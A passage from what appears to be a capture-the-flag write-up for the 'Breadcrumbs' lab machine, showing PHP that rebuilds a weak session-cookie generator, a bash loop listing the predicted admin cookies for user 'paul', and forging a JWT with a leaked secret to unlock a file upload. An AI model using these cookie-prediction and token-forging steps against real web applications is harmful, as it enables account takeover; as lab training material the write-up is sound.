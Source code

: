 ```python
}
```

We got code for generating cookie then we can make cookie for admin.

```php
<?php
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}

echo makesession("paul")

?>
```

```bash
┌──(aju㉿Parrot)-[~/breadcrumps/lfi]
└─$ for i in {1..10}; do php -f paul.php | sort; done > cookies.txt; sort -u cookies.txt
paul47200b180ccd6835d25d034eeb6e6390
paul61ff9d4aaefe6bdf45681678ba89ff9d
paul8c8808867b53c49777fe5559164708c3
paula2a6a014d3bee04d7df8d5837d62e8c5
```

so we generate 4 Session id for admin paul

![](/Writeups/breadcrumbs/Pasted image 20210718163404.png)

Login successful and we can upload zip file.

![](/Writeups/breadcrumbs/Pasted image 20210718163624.png)

In order to upload we have to change token to paul using [jwt.io](https://jwt.io/)
- edit name to paul from user token
-  add secret from authcontroller.

|User Name | Secret |
|---|---|
|paul |6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591|

![](/Writeups/breadcrumbs/Pasted image 20210718164650.png)

Success.

![](/Writeups/breadcrumbs/Pasted image 20210718165207.png)

![](/Writeups/breadcrumbs/Pasted image 20210718165228.png)
